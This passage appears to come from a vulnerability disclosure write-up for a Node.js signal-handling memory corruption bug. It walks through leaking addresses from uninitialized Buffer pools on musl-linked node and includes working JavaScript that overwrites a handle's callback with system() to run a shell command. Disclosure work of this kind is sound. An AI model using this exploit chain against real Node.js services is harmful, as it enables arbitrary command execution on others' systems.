 Note that if we have a controlled data on known address, we can easily make this an arbitrary function call. This is because we can point `handle` to the known address, satisfy the `msg->signum == handle->signum` constraint as well as the `assert()` call to reach `handle->signal_cb(handle, handle->signum)`. `handle->signal_cb` is our controlled data, and what's also good is that the first argument is `handle` itself - it would be best if we can make this into an arbitrary `system(cmd)` call.

3. Leaking addresses

For node binaries linked to glibc PIE seems to be disabled, which allows exploiting the binary in a easier manner as the node binary address is fixed. This is not the case for other node binaries, for example musl-linked node used for alpine-based Node.js docker images. Thus to exploit the vulnerability to obtain a full `system(cmd)` call, the exploit must first leak addresses.

Leaking addresses are easily done by using [uninitialized `Buffer`](https://nodejs.org/docs/latest-v20.x/api/buffer.html). After depleting the initial `Buffer` pool by allocating [~0x2000 bytes](https://github.com/nodejs/node/blob/v20.9.0/lib/buffer.js#L150), we receive a new pool that is filled with garbage data that the previous allocations have used.

This leaks the `Buffer` backing memory address at index 6, and an address at index 5 which has a constant offset from musl library base.

```js
// repro/code.js#L28
const fill = [];
for (let i = 0; i < 0x3f9; i++) {
    fill.push(Buffer.from("A"));
}
const dump_orig = Buffer.from("MARK").buffer;
const dump = Buffer.from(dump_orig);
const dump64 = tele(dump);

//console.log(dump64);

const buf = dump64[6] - 0x20n;
console.log(`buf:  0x${buf.toString(16)}`);
assert(dump64[4] === 0x007265666675425fn);          // "_Buffer"
assert((buf & 0xfffn) === 0x7c0n);

const musl = dump64[5] - 0x40a68n + 0x315000n;
console.log(`musl: 0x${musl.toString(16)}`);
assert((musl & 0xfffn) === 0n);
```

4. Popping shell

Now that we have leaked the libc base and the address of backing store of a `Buffer`, we can use this to call arbitrary `system(cmd)`. Using `DataView` to modify the `Buffer` contents at known address, we set `handle->signal_cb = system`, `handle->signum == msg->signum` and write our desired command to `handle`. We finally send the payload `sigmsg` to trigger the vulnerability and call arbitrary shell commands. In the repro exploit code, `id > /proc/${process.pid}/fd/1` is called to demonstrate that we have indeed popped shell.

```js
// repro/code.js#L47
const view = new DataView(dump_orig);
const sigmsg = new BigUint64Array(0x2);

const cmd = `id > /proc/${process.pid}/fd/1\0`;
assert(cmd.length <= 0x60);
for (let i = 0; i < cmd.length; i++) {
    view.setUint8(i, cmd.charCodeAt(i));
}
view.setBigUint64(0x60, ntoh(musl + 0x423a1n));     // handle->signal_cb = system
view.setBigUint64(0x68, ntoh(0x1337c0d3n));         // handle->signum = 0x1337c0d3

sigmsg[0] = buf;                                    // handle = buf
sigmsg[1] = 0x1337c0d3n;                            // msg->signum = 0x1337c0d3

```